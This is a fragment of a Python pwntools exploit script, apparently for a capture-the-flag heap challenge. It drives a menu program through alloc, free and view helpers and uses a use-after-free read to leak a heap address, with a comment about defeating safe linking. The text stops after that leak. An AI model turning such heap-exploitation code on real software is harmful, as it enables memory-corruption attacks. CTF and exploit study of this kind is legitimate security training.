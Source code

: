 ```py
        return pwn.gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return pwn.process([exe.path] + argv, *a, **kw)


def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = pwn.connect(host, port)
    if pwn.args.GDB:
        pwn.gdb.attach(io, gdbscript=gdbscript)
    return io


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if pwn.args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)


gdbscript = '''
b* main
source ~/Downloads/pwndbg/gdbinit.py
continue
'''.format(**locals())

io = None

libc = pwn.ELF("libc.so.6")

io = start()

def alloc(idx, data, size, s=False):
   io.sendlineafter("-\n> ", b"1") 
   io.sendlineafter("Index?\n> ", str(idx).encode()) 
   io.sendlineafter("> ", str(size).encode()) 
   
   if s:
       io.sendafter(": ", data) 
   else:
       io.sendlineafter(": ", data) 

def free(idx):
   io.sendlineafter("> ", b"2") 
   io.sendlineafter("> ", str(idx).encode())

def view(idx):
   io.sendlineafter("> ", b"3") 
   io.sendlineafter("> ", str(idx).encode())

for i in range(7):
    alloc(i, b"", 0x100)
free(0)

view(0)

heap = ((pwn.u64(io.recvline()[:-1].ljust(8, b"\x00")) << 12))
pwn.log.info(f"heap @ {hex(heap)}")
# then we defeated safe linking lol

alloc(0, b"YY", 0x100)

```